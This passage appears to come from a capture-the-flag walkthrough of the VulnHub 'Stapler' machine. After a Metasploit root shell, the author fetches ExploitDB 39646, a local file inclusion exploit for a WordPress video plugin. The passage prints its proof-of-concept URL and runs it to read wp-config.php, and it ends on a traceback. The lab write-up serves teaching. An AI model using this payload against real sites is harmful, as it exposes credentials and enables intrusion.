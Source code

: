 w00t w00t we have a root shell.

But Metasploit feels like cheating so we'll pretend it failed.

# [](#header-2)Port 12380/Apache

Alright lets grab a copy of the ExploitDB module for this wordpress plugin and have a look at what's going on.

`$ searchsploit 39646`

```
--------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                     |  Path
                                                                                                                                                   | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
WordPress Plugin Advanced Video 1.0 - Local File Inclusion                                                                                         | exploits/php/webapps/39646.py
--------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

`$ searchsploit -m exploits/php/webapps/39646.py`

```
  Exploit: WordPress Plugin Advanced Video 1.0 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/39646
     Path: /usr/share/exploitdb/exploits/php/webapps/39646.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/ben/CTFs/vulnhub/stapler_10.1.1.129/2-exploitation/12380_apache/39646.py
```

It looks like a relatively simple exploit, looks like we can pass a local file path to the plugin and it will generate a thumbnail containing the contents of the file. The script defaults to fetching `../wp-config.php`

The embedded proof of concept (PoC) URL is quite straight forward:

`# POC - http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]`

Lets modify the exploit to replace the PoC URL with our own and run the exploit.

`$ python 39646_modified.py`

```
Traceback (most recent call last):
  File "39646_modified.py", line 41, in <module>
    objHtml = urllib2.urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
  File "/usr/lib/python2.7/urllib2.py", line 154, in urlopen
    return opener.open(url, data, timeout)
  File "/usr/lib/python2.7/urllib2.py", line 429, in open
    response = self._open(req, data)
  File "/usr/lib/python2.7/urllib2.py", line 447, in _open
    '_open', req)
  File "/usr/lib/python2.7/urllib2.py", line 407, in _call_chain
    result = func(*args)
  File "/usr/lib/python2.7/urllib2.py", line 1241, in https_open
    context=self._context)
  File "/usr/lib/python2.7/urllib2.py", line 1198, in do_open
    raise URLError(err)
```